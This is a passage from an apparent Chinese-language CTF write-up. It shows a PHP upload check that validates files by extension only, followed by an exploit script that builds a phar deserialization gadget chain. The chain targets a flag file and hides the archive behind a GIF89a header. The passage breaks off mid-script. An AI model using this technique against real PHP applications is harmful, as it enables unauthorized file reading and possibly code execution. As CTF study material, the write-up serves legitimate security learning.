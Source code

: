 ```php
        upload_file_do(); 
    } 
} 
function upload_file_check() { 
    global $_FILES; 
    $allowed_types = array("gif","jpeg","jpg","png"); 
    $temp = explode(".",$_FILES["file"]["name"]); 
    $extension = end($temp); 
    if(empty($extension)) { 
        //echo "<h4>请选择上传的文件:" . "<h4/>"; 
    } 
    else{ 
        if(in_array($extension,$allowed_types)) { 
            return true; 
        } 
        else { 
            echo '<script type="text/javascript">alert("Invalid file!");</script>'; 
            return false; 
        } 
    } 
} 
?>
```

很显然的phar反序列化攻击

Exp

```php
<?php
class C1e4r
{
    public $test;
    public $str;
    public function __construct($name)
    {
        $this->str = $name;
    }
}

class Show
{
    public $source;
    public $str;
}
class Test
{
    public $file;
    public $params;
}

$test = new Test();
$test->params["source"]="/var/www/html/f1ag.php";

$show = new Show();
$show->str['str']=$test;

$payload =new C1e4r($show);

$phar = new Phar('eki.jpg.phar');
$phar -> startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');   //设置 stub，增加 gif 文件头
$phar ->addFromString('test.txt','test');  //添加要压缩的文件

```